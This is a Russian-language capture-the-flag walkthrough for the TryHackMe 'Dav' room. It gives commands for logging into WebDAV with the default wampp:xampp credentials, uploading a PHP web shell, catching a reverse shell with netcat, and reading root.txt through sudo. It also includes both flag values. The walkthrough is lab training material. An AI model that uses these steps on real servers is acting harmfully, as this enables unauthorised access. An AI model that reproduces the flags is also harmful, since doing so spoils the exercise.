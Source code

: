

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Dav](https://tryhackme.com/r/room/bsidesgtdav) 

Всего 1 заданиe:
## Задание 1
Прочитать user.txt и root.txt

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sC -sV <IP>
wget --http-user="wampp" --http-password="xampp" http://<IP>/webdav/passwd.dav
cat passwd.dav 
# wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
curl -u "wampp:xampp" -X PUT http://<IP>/webdav/test
cadaver http://<IP>/webdav
# wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
put shell.php
quit
nc -nlvp 4444
SHELL=/bin/bash script -q /dev/null
cd /home/merlin/
cat user.txt
```
```commandline
449b40fe93f78a938523b7e4dcd66d2a
```
корень.txt
```commandline
sudo -l
sudo cat /root/root.txt
```
```commandline
101101ddc16b0cdf65ba0b8a7af7afa5
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)